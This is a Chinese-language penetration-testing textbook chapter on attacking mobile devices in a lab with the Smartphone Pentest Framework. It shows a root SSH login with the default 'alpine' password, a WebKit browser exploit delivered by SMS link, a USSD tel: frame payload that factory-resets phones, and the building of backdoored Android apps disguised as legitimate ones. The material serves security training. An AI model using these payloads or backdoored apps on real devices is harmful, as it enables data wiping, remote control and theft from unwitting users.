




## 第二十章 使用智能手机渗透框架

*自带设备（BYOD）*目前在行业中是一个热门话题。尽管多年来我们一直以某种形式将自己的设备带到工作中（例如承包商的笔记本电脑或某人将游戏主机连接到休息室网络上），但如今移动设备正大规模进入职场，安全团队和渗透测试人员的任务是评估这些设备的安全风险。

本章将重点介绍用于评估移动设备安全性的工具和攻击方式。移动技术是一个快速发展的领域，尽管我们这里只能涵盖基础内容，但开发新的移动攻击和后渗透技术是进行安全研究的理想起点。例如，我们将讨论我创建的一款工具——*智能手机渗透框架（SPF）*，它帮助渗透测试人员评估移动设备的安全状态。通过本书的学习，你将准备好开始自己的信息安全之旅，甚至可能会开发出你自己的工具。

本章中的大多数示例将使用 Android 平台作为目标，因为除了它是最普及的操作平台外，它还允许你在 Windows、Linux 和 Mac OS 平台上创建模拟器。尽管我们将重点讨论 Android，但我们也会探讨对越狱 iPhone 的攻击。

## 移动攻击向量

尽管移动设备运行操作系统、支持 TCP/IP 协议，并且能够访问与传统计算机相同的资源，但它们也有自己独特的功能，带来了新的攻击向量和协议。一些功能已经在设备上存在多年并造成了安全问题，而像近场通信（NFC）这样的新功能，稍后将进行讨论，算是比较新的安全挑战。

### 短信

许多移动设备都能发送和接收文本（短信）消息。尽管短信的大小有限，但它使用户几乎可以实时通信，常常取代电子邮件作为书面沟通方式。短信为社交工程攻击提供了一个新的攻击向量。

传统上，电子邮件一直是发送垃圾邮件和网络钓鱼尝试的媒介，但即使是免费的电子邮件解决方案，今天也能有效地过滤掉垃圾邮件。（如果你需要在工作中找点乐子，可以去看看你的电子邮件垃圾邮件文件夹。）短信则是另一个故事：尽管一些移动防病毒软件允许你对某些手机号码进行黑名单和白名单设置，但通常只要你向设备发送短信，该消息就会被接收。这使得短信成为进行垃圾邮件和网络钓鱼攻击的理想载体。

我们已经开始看到令人烦恼的移动广告和短信钓鱼攻击，这些攻击诱使用户访问虚假的网站并输入他们的凭证，类似于第十一章中的网站克隆攻击。随着时间的推移，这些攻击无疑会变得更加普遍。安全意识培训需要加强，以应对这一威胁。一个知道不该点击可疑邮件中随机链接的用户，仍然可能会点击短信中的随机链接。毕竟，那只是一个短信——短信怎么可能伤害你呢？但是，那个链接会在移动浏览器或其他应用中打开，而这些应用可能存在额外的漏洞。

### 近场通信

移动设备带来了另一个攻击向量：*近场通信*，或称 *NFC*。NFC 允许设备通过接触或靠近彼此来共享数据。启用 NFC 的移动设备可以扫描 NFC 标签来自动执行任务，如更改设置或打开应用程序。有些设备还可以将数据（如照片或整个应用）从一台设备传输到另一台设备。NFC 是另一个理想的社会工程学攻击向量。例如，在 2013 年的 Mobile Pwn2Own 持续漏洞利用竞赛中，研究人员通过将恶意载荷传送到设备上的一个易受攻击应用，利用 NFC 攻击了一台 Android 设备。因此，安全意识培训还应教授用户注意自己的设备响应哪些 NFC 标签，以及他们与谁共享数据。

### 二维码

*快速响应（QR）码* 是最初为汽车制造业开发的矩阵条形码。二维码可以嵌入网址，将数据发送到移动设备上的应用程序等，用户应当意识到他们扫描的内容可能会打开恶意网站。商店窗户上的二维码不一定指向商店的官网，而且恶意二维码攻击已经在现实中发生过。例如，一位著名的黑客活动者将他的 Twitter 头像改为二维码，促使许多好奇的用户使用手机扫描它。二维码将他们引导到一个恶意网页，试图利用 WebKit 漏洞，WebKit 是 iOS 和 Android 都使用的网页渲染引擎。

## 智能手机渗透测试框架

够了，话不多说；让我们将注意力转向如何利用 SPF 实际攻击移动设备。SPF 仍在积极开发中，其功能集变化迅速。当你完成这一部分内容时，许多菜单可能会提供额外的选项。在第一章中，你下载了本书使用的 SPF 版本，但要获取 SPF 的主分支和最新版本，请访问 *[`github.com/georgiaw/Smartphone-Pentest-Framework.git/`](https://github.com/georgiaw/Smartphone-Pentest-Framework.git/)*。

### 设置 SPF

如果你按照第一章中的说明进行操作，SPF 应该已经设置完毕并可以运行。因为 SPF 使用 Kali 内置的 Web 服务器来交付某些 payload，请确保 Apache 服务器正在运行，如下所示。

```
root@kali:~/Smartphone-Pentest-Framework/frameworkconsole# **service apache2 start**
```

此外，SPF 会将信息记录在 MySQL 或 PostgreSQL 数据库中。确保 MySQL 数据库已启动，如下所示。

```
root@kali:~/Smartphone-Pentest-Framework/frameworkconsole# **service mysql start**
```

最后一步是编辑我们的 SPF 配置文件*/root/Smartphone-Pentest-Framework/frameworkconsole/config*，以匹配我们的环境。默认的配置文件在示例 20-1 中显示。

示例 20-1. SPF 配置文件

```
root@kali:~/Smartphone-Pentest-Framework/frameworkconsole# **cat config**
#SMARTPHONE PENTEST FRAMEWORK CONFIG FILE
#ROOT DIRECTORY FOR THE WEBSERVER THAT WILL HOST OUR FILES
WEBSERVER = /var/www
#IPADDRESS FOR WEBSERVER (webserver needs to be listening on this address)
IPADDRESS = 192.168.20.9 ❶
#IP ADDRESS TO LISTEN ON FOR SHELLS
SHELLIPADDRESS = 192.168.20.9 ❷
#IP ADDRESS OF SQLSERVER 127.0.0.1 IF LOCALHOST
MYSQLSERVER = 127.0.0.1
--*snip*--
#NMAP FOR ANDROID LOCATION
ANDROIDNMAPLOC = /root/Smartphone-Pentest-Framework/nmap-5.61TEST4
#EXPLOITS LOCATION
EXPLOITSLOC = /root/Smartphone-Pentest-Framework/exploits
```

如果你的 Kali IP 地址是 192.168.20.9，并且你将 SPF 安装在*/root/Smartphone-Pentest-Framework/*中，默认配置应该满足你的需求。否则，修改`IPADDRESS` ❶和`SHELLIPADDRESS` ❷为你的 Kali 机器的 IP 地址。

现在通过切换目录到*/root/Smartphone-Pentest-Framework/frameworkconsole/*并运行**`./framework.py`**来启动 SPF。你应该看到一个类似于示例 20-2 的菜单。

示例 20-2. 启动 SPF

```
root@kali:~/Smartphone-Pentest-Framework/frameworkconsole# **./framework.py**
################################################
#                                              #
# Welcome to the Smartphone Pentest Framework! #
#                   v0.2.6                     #
#         Georgia Weidman/Bulb Security        #
#                                              #
################################################

Select An Option from the Menu:

     1.)  Attach Framework to a Deployed Agent/Create Agent
     2.)  Send Commands to an Agent
     3.)  View Information Gathered
     4.)  Attach Framework to a Mobile Modem
     5.)  Run a remote attack
     6.)  Run a social engineering or client side attack
     7.)  Clear/Create Database
     8.)  Use Metasploit
     9.)  Compile code to run on mobile devices
    10.)  Install Stuff
    11.)  Use Drozer
     0.)  Exit
spf>
```

本章剩余部分将探索 SPF 的各种选项。现在，让我们进行一个快速测试，确保 SPF 能够与数据库通信。SPF 安装程序为 SPF 设置了一个空的数据库，但你可以通过运行选项`7.) 清除/创建` `数据库`来清除所有数据并重新开始，如下所示。此命令将清除 SPF 数据库表，并在它们不存在时创建它们。

```
spf> **7**
This will destroy all your data. Are you sure you want to? (y/N)? **y**
```

### Android 模拟器

在第一章中，我们创建了三个 Android 模拟器。虽然我们的一些攻击不依赖于 Android 版本，但我们将查看一些适用于模拟器的客户端攻击和权限提升攻击，这些攻击在针对特定较旧版本的模拟器时效果较好。由于它们只是模拟器，你将无法成功测试所有已知的 Android 漏洞。

### 附加移动调制解调器

由于并非所有移动攻击向量都使用 TCP/IP 网络，SPF 通过渗透测试者的设备进行攻击。截至目前，SPF 可以使用安装了 SPF 应用的 Android 手机的移动调制解调器，或带有 SIM 卡的 USB 调制解调器来发送短信。此外，当使用具有 NFC 功能的 Android 手机时，SPF 可以通过 Android Beam 和 SPF Android 应用程序交付 payload。

### 构建 Android 应用

要从 SPF 构建 Android 应用程序，请选择选项`4.) 将框架附加到移动调制解调器`，如示例 20-3 所示。

示例 20-3. 构建 SPF 应用程序

```
spf> **4**

Choose a type of modem to attach to:
    1.) Search for attached modem
    2.) Attach to a smartphone based app
    3.) Generate smartphone based app
    4.) Copy App to Webserver
    5.) Install App via ADB
spf> **3**❶

Choose a type of control app to generate:
    1.) Android App (Android 1.6)
    2.) Android App with NFC (Android 4.0 and NFC enabled device)
spf> **1**❷
Phone number of agent: **15555215556**❸
Control key for the agent: **KEYKEY1**❹
Webserver control path for agent: **/androidagent1**❺

Control Number:15555215556
Control Key:KEYKEY1
ControlPath:/bookspf
Is this correct?(y/n)**y**
--*snip*--
-post-build:

debug:

BUILD SUCCESSFUL
Total time: 10 seconds
```

接下来选择选项`3.) 生成基于智能手机的应用` ❶。SPF 可以制作两种类型的应用程序：一种使用 NFC，另一种不使用。由于我们的 Android 模拟器不支持 NFC 功能，选择`1.) Android 应用（Android 1.6）` ❷。

系统将要求你输入有关 SPF 代理的信息，以便通过 SPF 应用程序进行控制。SPF 代理允许我们控制被感染的移动设备。我们将在本章稍后讨论如何生成和部署 SPF 代理；目前，只需输入你的 Android 2.2 模拟器的电话号码❸，一个七字符的密钥❹，以及 Web 服务器上的路径，从`/`开始❺。SPF 将使用 Android SDK 来构建 SPF 应用程序。

### 部署应用程序

现在，将应用程序部署到我们的 Android 4.3 模拟器上。这个模拟器将模拟渗透测试人员控制的设备，另外两个模拟器将是我们的目标。如果你在 Kali Linux 上运行模拟器，或者使用可以通过 USB 连接到 Kali 虚拟机的真实 Android 设备，你可以使用 Android 调试桥（ADB）来安装应用程序，如示例 20-4 所示。（首先，从主菜单选择选项`4.) 将框架附加到移动调制解调器`。）

示例 20-4. 安装 SPF 应用程序

```
spf> **4**

Choose a type of modem to attach to:
    1.) Search for attached modem
    2.) Attach to a smartphone based app
    3.) Generate smartphone based app
    4.) Copy App to Webserver
    5.) Install App via ADB
spf> **5**
* daemon not running. starting it now on port 5037 *
* daemon started successfully *
List of devices attached
emulator-5554     device
emulator-5556     device
emulator-5558     device
Choose a device to install on: **emulator-5554**❶
Which App?

    1.)Framework Android App with NFC

    2.)Framework Android App without NFC

spf> **2**❷
1463 KB/s (46775 bytes in 0.031s)
    pkg: /data/local/tmp/FrameworkAndroidApp.apk
Success
```

在选择要附加的调制解调器类型菜单中，选择选项**`5`**，让 ADB 搜索所有已连接的设备。接下来，告诉 SPF 要在哪个模拟器或设备上安装 SPF；在这个例子中，我选择了`emulator-5554`❶，这是一个 Android 4.3 模拟器，电话号码是 1-555-521-5554。最后，告诉 SPF 安装不带 NFC 的 Android 应用程序（选项**`2`**）❷。

如果你在主机系统上使用模拟器，Kali 中的 ADB 将无法连接到它们。相反，为了部署应用程序，从主菜单选择选项`4.) 将框架附加到移动调制解调器`，然后选择选项`4.) 将应用程序复制到 Web 服务器`，如示例 20-5 所示。

示例 20-5. 复制应用程序到 Web 服务器

```
spf> **4**

Choose a type of modem to attach to:
    1.) Search for attached modem
    2.) Attach to a smartphone based app
    3.) Generate smartphone based app
    4.) Copy App to Webserver
    5.) Install App via ADB
spf> **4**
Which App?
    1.)Framework Android App with NFC
    2.)Framework Android App without NFC
spf> **2**❶
Hosting Path: **/bookspf2**❷
Filename: **/app.apk**❸
```

这将允许我们将应用程序复制到 Kali 的 Web 服务器上，在那里我们可以下载并安装到模拟器中。告诉 SPF 复制不带 NFC 的框架 Android 应用程序❶，然后告诉它将应用程序放到 Web 服务器上的位置❷。最后，告诉 SPF 要下载的应用程序的文件名❸。通过在移动浏览器中打开 URL *[`192.168.20.9/bookspf2/app.apk`](http://192.168.20.9/bookspf2/app.apk)*，从你的 Android 4.3 模拟器下载应用程序。

### 附加 SPF 服务器和应用程序

现在我们需要附加 SPF 服务器和 SPF 应用程序，如示例 20-6 所示。（再次，从主菜单开始选择选项**`4`**。）

示例 20-6. 附加到 SPF 应用程序

```
spf> **4**

Choose a type of modem to attach to:
    1.) Search for attached modem
    2.) Attach to a smartphone based app
    3.) Generate smartphone based app
    4.) Copy App to Webserver
    5.) Install App via ADB
spf> **2**❶

Connect to a smartphone management app. You will need to supply the phone number, the control key, and the URL path.

Phone Number: **15555215554**❷
Control Key: **KEYKEY1**❸
App URL Path: **/bookapp**❹

Phone Number: 15555215554
Control Key: KEYKEY1
URL Path: /bookapp
Is this correct?(y/N): **y**
```

选择`2.) 附加到智能手机应用程序`❶。接下来，提供运行 SPF 应用程序的模拟器的电话号码❷，一个七字符的密钥❸，以及应用程序将检查的 URL❹。（密钥不需要与我们在构建应用程序时为代理使用的密钥相同。并且，URL 应该与构建应用程序时为代理使用的 URL 不同。）一旦确认这些信息无误，SPF 似乎会挂起。我们需要附加应用程序。

图 20-1. SPF 应用程序

要连接该应用程序，首先在 Android 模拟器上打开它。主屏幕会要求输入 SPF 服务器的 IP 地址、要检查的 URL 以及七位字符的密钥。使用与前一步相同的值（除了 IP 地址应为 SPF 服务器的 IP 地址，而不是电话号码），如 图 20-1 所示。

填写完信息后，点击应用程序上的 **附加**。现在，直到你点击解除连接，你就可以通过 SPF 控制手机了。现在返回 Kali 上的 SPF。当应用程序附加后，你会被带回到 SPF 的主菜单，这意味着我们准备开始运行移动攻击了。

## 远程攻击

在移动设备的历史上，曾经有过对移动调制解调器和其他面向外部的接口的攻击。例如，研究人员发现了 Android 手机和 iPhone 的移动调制解调器驱动程序中的漏洞，攻击者可以通过发送 SMS 短信使手机崩溃、使其脱离移动网络，甚至获得手机的命令执行权限。与传统计算机类似，随着移动设备的安全状况不断改善，可用的远程攻击数量将减少。话虽如此，用户在手机上安装的软件越多，潜在的漏洞服务监听网络端口的机会就越大，正如你将在接下来的章节中了解到的那样。

### 默认 iPhone SSH 登录

一次远程攻击可能是第一个 iPhone 僵尸网络的原因。在越狱的 iPhone 上，用户可以安装 SSH 以远程登录到他们的 iPhone 终端。默认情况下，SSH 在所有设备上都有 root 密码 *alpine*。当然，用户应该更改这个值，但许多越狱 iPhone 的用户并没有这么做。尽管这个问题在多年前就已经曝光，但与许多默认密码问题一样，它依然时常出现。

要测试越狱 iPhone 上的默认 SSH 密码，我们可以选择 `5.) 运行远程攻击`，或者使用我们的老朋友 Metasploit。正如 SET 允许我们在 第十一章中使用 Metasploit 创建客户端攻击一样，我们可以使用 SPF 与 Msfcli 接口，以自动运行来自 Metasploit 的移动模块。

不幸的是，截止到目前为止，Metasploit 中针对移动设备的模块并不多，但有一个模块可以测试是否使用了默认的 iPhone 密码。如 示例 20-7 中所示，从 SPF 主菜单中选择 `8.) 使用 Metasploit`，然后选择 `1.) 运行 iPhone Metasploit 模块`。接下来，选择 `1.) Cydia 默认 SSH 密码`。SPF 会询问你 iPhone 的 IP 地址，以便填写模块中的 `RHOST` 选项。然后 SPF 会调用 Msfcli，并运行所需的模块。

示例 20-7. Root SSH 默认密码 Metasploit 模块

```
spf> **8**
Runs smartphonecentric Metasploit modules for you.

Select An Option from the Menu:
    1.) Run iPhone Metasploit Modules
    2.) Create Android Meterpreter
    3.) Setup Metasploit Listener
spf> **1**

Select An Exploit:
    1.) Cydia Default SSH Password
    2.) Email LibTiff iOS 1
    3.) MobileSafari LibTiff iOS 1
spf> **1**

Logs in with alpine on a jailbroken iPhone with SSH enabled.
iPhone IP address: **192.168.20.13**
[*] Initializing modules...
RHOST => 192.168.20.13
[*] 192.168.20.13:22 - Attempt to login as 'root' with password 'alpine'
[+] 192.168.20.13:22 - Login Successful with 'root:alpine'
[*] Found shell.
[*] Command shell session 1 opened (192.168.20.9:39177 -> 192.168.20.13:22) at 2015-03-21 14:02:44 -0400

**ls**
Documents
Library
Media
--*snip*--
```

如果你手边有一台越狱的 iPhone，可以测试此模块。如果登录成功，Metasploit 将为你提供一个 root shell。完成后，输入**`exit`**以关闭 Shell 并返回 SPF。当然，如果你的 iPhone 上启用了 SSH，务必立即将密码从*alpine*更改。

## 客户端攻击

在移动设备上，客户端攻击比远程攻击更为普遍。就像我们在第十章研究的攻击一样，我们的客户端攻击并不限于移动浏览器。我们可以攻击设备上的其他默认应用，以及任何可能存在漏洞的第三方应用。

### 客户端 Shell

让我们来看一个攻击移动浏览器中 WebKit 包以获取 Android 设备 Shell 的例子。（这类似于在第十章中讨论的浏览器攻击。）我们将在诱使用户打开恶意页面后攻击移动浏览器中的一个漏洞。执行的 Shell 代码将是 Android 的，而不是 Windows，但整体攻击动态是相同的，如示例 20-8 所示。

示例 20-8. Android 浏览器攻击

```
spf> **6**
Choose a social engineering or client side attack to launch:
    1.) Direct Download Agent
    2.) Client Side Shell
    3.) USSD Webpage Attack (Safe)
    4 ) USSD Webpage Attack (Malicious)

spf> **2**❶
Select a Client Side Attack to Run

    1) CVE=2010-1759 Webkit Vuln Android

spf> **1**❷
Hosting Path: **/spfbook2**❸
Filename: **/book.html**❹

Delivery Method(SMS or NFC): **SMS**❺
Phone Number to Attack: **15555215558**
Custom text(y/N)? **N**
```

从主 SPF 菜单中选择`6.) 进行社交工程或客户端攻击`。现在选择`2.) 客户端 Shell` ❶ 然后选择利用选项`1.)` `CVE=2010-1759 Webkit 漏洞 Android` ❷。系统会提示你输入网页服务器的路径 ❸，并要求输入文件名 ❹。SPF 然后会生成一个恶意页面来攻击 CVE-2010-1759 WebKit 漏洞。

然后，系统会询问你希望如何传送恶意页面的链接 ❺。你可以选择使用 NFC 或 SMS。由于我们的模拟器不支持 NFC，我们选择了 SMS。当系统提示输入攻击目标的号码时，向你的 Android 2.1 模拟器发送短信。最后，当询问是否使用自定义文本发送短信（而不是默认的“这是一个酷页面：<link>”）时，可以将默认文本更改为更具创意的内容，或者不更改。

我们只有一个移动调制解调器连接到 SPF，因此 SPF 会自动使用它发送短信。SPF 会联系 Android 4.3 模拟器上的 SPF 应用，并指示它将短信发送到 Android 2.1 模拟器。Android 2.1 模拟器接收到的短信将来自 Android 4.3 模拟器。（一些移动设备，如 iPhone，存在实现短信功能时的缺陷，使得攻击者能够伪造发送号码，造成此攻击看起来像是来自任何他们想要的号码。）收到的短信如下所示。

```
15555215554: This is a cool page: http://192.168.20.9/spfbook2/book.html
```

与第十章中讨论的客户端攻击类似，这种攻击依赖于用户在易受攻击的移动浏览器中打开链接。我们的 Android 2.1 模拟器浏览器易受到此攻击，当你点击链接以打开移动浏览器时，浏览器将在大约 30 秒内尝试打开页面，期间攻击正在进行，随后崩溃。此时，你应该已经在 SPF 中获得了一个 shell。SPF 会在 shell 打开时自动运行 Android 相当于 `whoami` 的命令。

由于我们攻击的是浏览器，因此我们是以 *app_2*（模拟器中的移动浏览器）的身份运行。像往常一样，shell 拥有被利用应用的所有权限，这意味着你可以运行浏览器可用的任何命令。例如，输入 **`/system/bin/ls`**，如示例 20-9 所示，使用 `ls` 列出当前目录的内容。完成后，输入 **`exit`** 以返回 SPF。

示例 20-9. Android shell

```
Connected: Try exit to quit
uid=10002(app_2) gid=10002(app_2) groups=1015(sdcard_rw),3003(inet)
**/system/bin/ls**
sqlite_stmt_journals
--*snip*--
**exit**
```

### 注意

Android 是一个分支的 Linux 内核，因此一旦我们获得了 shell，我们应该可以开始使用 Android，对吧？不幸的是，许多 Linux 工具如 `cp` 并不在其中。此外，用户结构也略有不同，每个应用都有自己的 UID。然而，深入了解 Android 超出了本章的范围。

我们将在本章稍后探讨另一种控制被利用的 Android 设备的方法，使用植入后门的应用调用 Android API。但首先，让我们来看一下另一种客户端攻击。

### USSD 远程控制

*无结构补充服务数据（USSD）* 是一种移动设备与移动网络通信的方式。当你拨打特定的号码时，设备将执行特定的功能。

2012 年底，有报道称一些 Android 设备会自动在拨号器应用中打开它们在网页上发现的号码。当在拨号器中输入 USSD 代码时，相应功能会自动被调用。这听起来像是一个攻击者可以滥用的好功能，用来远程控制设备。

事实证明，攻击者可以将 USSD 代码放在网页中作为要拨打的号码，最终迫使这些易受攻击的设备执行各种有趣的操作。例如，如此处所示，恶意网页中的 `tel:` 标签告诉 Android 这是一个电话号码。但当 USSD 代码 `2673855%23` 在拨号器中打开时，设备会执行恢复出厂设置，删除所有用户数据。

```
<html>
<frameset>
<frame src="tel:*2767*3855%23" />
</frameset>
</html>
```

### 注意

漏洞并不在 USSD 代码本身，而是在某些设备实现 `tel:` 标签的方式上。各种 USSD 标签提供了各种功能。

我们的示例将使用比之前描述的更无害的有效载荷。我们将使设备自动拨打一个代码，以在弹出窗口中显示其唯一标识符，如示例 20-10 所示。

示例 20-10. Android USSD 攻击

```
spf> **6**
Choose a social engineering or client side attack to launch:
    1.) Direct Download Agent
    2.) Client Side Shell
    3.) USSD Webpage Attack (Safe)
    4 ) USSD Webpage Attack (Malicious)
spf> **3**❶
Hosting Path: **/spfbook2**
Filename: **/book2.html**
Phone Number to Attack: **15555215558**
```

要在 SPF 中运行安全的 USSD 示例，选择菜单选项 **`6`**，然后选择 `3.) USSD 网页攻击（安全）` ❶。系统会要求你输入网页服务器的地址、恶意页面的名称和要发送的电话号码。将其发送到你的 Android 2.1 模拟器。

现在在你收到的 Android 2.1 模拟器中的短信页面打开。此次，不是浏览器崩溃，而是拨号应用打开，并且弹出了通知，如图 20-2 所示。

图 20-2. USSD 自动拨号

结果表明，我们的模拟器没有唯一标识符，所以号码为空。虽然这个示例对设备或数据没有害，但如果其他 USSD 代码在拨号器中打开，可能会带来风险。

### 注意

当然，这个漏洞以及我们在上一节中利用的 WebKit 问题，自从被发现以来已经修复。Android 在安全更新方面有着复杂的关系。问题在于任何人都可以制造 Android 设备，并且实现自己的 Android 操作系统。当 Google 发布包含一系列补丁的新版本时，每个原始设备制造商（OEM）都需要将这些更改移植到其 Android 版本中，运营商也需要将更新推送到他们的设备上。然而，更新并不是一致地交付的，这意味着根据型号和运营商的不同，可能有数百万台未修复的设备在使用。

现在让我们把注意力转向一个可能永远不会被修复的漏洞：恶意应用。

## 恶意应用

在本书中，我们间歇性地研究了恶意程序。我们在第四章中使用 Msfvenom 创建了恶意可执行文件，在第八章中上传了后门到易受攻击的 Web 服务器，在第十一章中查看了通过社会工程攻击诱使用户下载和运行恶意程序，在第十二章中绕过了防病毒程序。

尽管社会工程学和用户通过运行恶意程序破坏安全策略，可能会成为企业安全的长期问题，但移动设备使这个问题变得更加复杂。很难想象有人会给你一台工作用的笔记本电脑，并鼓励你去互联网上下载任何可能有趣、好玩或提高生产力的程序——但这正是移动设备的营销方式。（“购买我们的设备，它有最好的应用。” “下载我们的应用，它们在生产力/娱乐/安全方面是最好的。”）移动防病毒应用通常需要极高的权限，甚至需要设备上的管理功能才能运行，而移动设备管理解决方案通常需要在设备上安装更多的应用程序。

移动用户充斥着下载应用的理由，而移动恶意软件正在上升，其中许多以恶意应用程序的形式出现。如果用户被欺骗安装了恶意应用，攻击者就可以利用 Android 的 API 窃取数据、远程控制，甚至攻击其他设备。

在 Android 安全模型中，应用程序必须请求使用可能被恶意使用的 API 权限，用户必须在安装时接受请求的权限。不幸的是，用户常常会授予各种潜在危险的权限。我们可以利用 Android 权限，在用户安装恶意应用后，控制设备，而无需运行额外的漏洞利用程序。

### 创建恶意 SPF 代理

SPF 允许我们创建具有各种有趣功能的恶意应用程序。之前我们在渗透测试者控制的设备上使用了 SPF 应用，允许 SPF 使用设备的移动调制解调器及其他功能；我们的目标是欺骗用户将 SPF 代理安装到目标设备上。

截至目前，SPF 代理可以通过 HTTP 检查服务器或通过 SPF 控制的移动调制解调器接收隐藏的 SMS 消息来接收命令。自然地，如果我们的代理看起来像一个有趣和/或值得信赖的应用，我们会更成功。我们可以将代理嵌入到任何合法的应用程序中：SPF 可以将已编译的 APK 文件嵌入代理后门，或者如果我们有应用程序的源代码，我们也可以在其中加入后门。

#### 后门源代码

让我们以后门源代码为例。选择主 SPF 菜单中的 `1.) 附加框架到已部署的代理/创建代理`。SPF 包括一些我们可以用于示例的应用模板。你还可以使用选项 `4` 将任何应用的源代码导入到 SPF 中。如果你没有要伪装的应用程序的源代码，你可以使用选项 `5` 给已编译的 APK 添加后门。你甚至可以利用 2013 年发现的 Android 主密钥漏洞，将已安装在设备上的应用程序替换为带有后门的版本。现在，让我们只使用 SPF 的模板之一，如示例 20-11 所示。

示例 20-11. 构建 Android 代理

```
spf> **1**

Select An Option from the Menu:
    1.) Attach Framework to a Deployed Agent
    2.) Generate Agent App
    3.) Copy Agent to Web Server
    4.) Import an Agent Template
    5.) Backdoor Android APK with Agent
    6.) Create APK Signing Key

spf> **2**❶
    1.) MapsDemo
    2.) BlankFrontEnd

spf> **1**❷
Phone number of the control modem for the agent: **15555215554**❸
Control key for the agent: **KEYKEY1**❹
Webserver control path for agent: **/androidagent1**❺
Control Number:15555215554
Control Key:KEYKEY1
ControlPath:/androidagent1
Is this correct?(y/n) **y**
--*snip*--

BUILD SUCCESSFUL
```

选择 `2.) 生成代理应用` ❶。我们将使用 Google 随 Android SDK 提供的 MapsDemo 示例模板 ❷ 来演示功能。当系统提示时，输入接收 SMS 命令的电话号码 ❸，SPF 的七位字符密钥 ❹，以及用于 HTTP 命令的检查目录 ❺。对于代理密钥和路径，使用你在创建 SPF 应用时所用的相同值（构建 Android 应用）。使用 Android 4.3 模拟器（SPF 应用）上的电话号码作为控制电话号码。SPF 会在选择的模板中构建 Android 代理。

现在引诱用户下载和安装代理，这个过程类似于我们的客户端攻击，按照 示例 20-12 中的步骤进行。

示例 20-12. 引诱用户安装代理

```
spf> **6**

Choose a social engineering or client side attack to launch:
    1.) Direct Download Agent
    2.) Client Side Shell
    3.) USSD Webpage Attack (Safe)
    4 ) USSD Webpage Attack (Malicious)

spf> **1**❶
This module sends an SMS with a link to directly download and install an Agent
Deliver Android Agent or Android Meterpreter (Agent/meterpreter:) **Agent**❷
Hosting Path: **/spfbook3**❸
Filename: **/maps.apk**
Delivery Method:(SMS or NFC): **SMS**
Phone Number to Attack: **15555215556**
Custom text(y/N)? **N**
```

在主菜单中选择选项 **`6`**，然后选择 `1.) 直接下载代理` ❶。系统会询问你是否要发送 Android 代理或 Android Meterpreter（Metasploit 的最新添加）。因为我们正在使用 Android 代理，选择 **`代理`** ❷。像往常一样，你将被提示路径、Web 服务器上的应用名称、攻击向量以及从 ❸ 开始攻击的号码。指示 SPF 发送带有默认文本的短信到 Android 2.2 模拟器。

在 Android 2.2 模拟器上，当短信到达时点击链接。应用程序将被下载。下载完成后，点击 **安装**，接受权限并打开应用。如 图 20-3 所示，代理将看起来和感觉像原始应用模板（Google 地图演示），但在后台具有额外功能。

图 20-3. 后门应用

现在将 SPF 附加到已部署的代理。如果向大量号码发送短信广告，谁知道多少用户会安装代理或多快，但代理具有签到功能（参见 示例 20-13），将会响应 SPF 的查询以查看其是否已部署。

示例 20-13. 将 SPF 附加到部署的代理

```
spf> **1**

Select An Option from the Menu:
    1.) Attach Framework to a Deployed Agent
    2.) Generate Agent App
    3.) Copy Agent to Web Server
    4.) Import an Agent Template
    5.) Backdoor Android APK with Agent
    6.) Create APK Signing Key

spf> **1**❶
Attach to a Deployed Agent:

This will set up handlers to control an agent that has already been deployed.

Agent URL Path: **/androidagent1**❷
Agent Control Key: **KEYKEY1**❸
Communication Method(SMS/HTTP): **HTTP**❹

URL Path: /androidagent1
Control Key: KEYKEY1
Communication Method(SMS/HTTP): **HTTP**
Is this correct?(y/N): **y**
```

在主菜单中选择选项 **`1`**，然后选择 `1.) 将框架附加到已部署的代理` ❶。系统会询问路径 ❷、密钥 ❸ 和通信方法 ❹。输入创建代理时使用的值。

SPF 将会等待代理响应一分钟，看起来好像挂起了。返回菜单后，你应该已连接到代理。现在从主菜单选择 `2.) 发送命令给代理`。你将看到数据库中代理的列表；你应该能在列表中看到刚刚附加到 SPF 的代理，如图所示。

```
spf> **2**
Available Agents:
15555215556
```

#### 给 APK 加后门

在使用部署的 SPF 代理之前，让我们看看另一种更复杂的创建代理的方法。因为你可能并不总是拥有你想要给其加后门的应用程序的源代码，SPF 可以与预编译的 APK 文件一起工作。包括 Google Play 商店中的任何 APK 都在其范围之内。

要给 APK 加上 SPF 代理后门，在主菜单中选择选项 **`1`**，然后选择 `5.) 使用代理给 Android APK 加上后门`，如 示例 20-14 所示。

示例 20-14. 给 APK 加后门

```
spf> **1**

Select An Option from the Menu:
    1.) Attach Framework to a Deployed Agent
    2.) Generate Agent App
    3.) Copy Agent to Web Server
    4.) Import an Agent Template
    5.) Backdoor Android APK with Agent
    6.) Create APK Signing Key
spf> **5**
APKTool not found! Is it installed? Check your config file
Install Android APKTool(y/N)?
spf> **y**

--2015-12-04 12:28:21--  https://android-apktool.googlecode.com/files/apktool-install-linux-r05-ibot.tar.bz2
--*snip*--
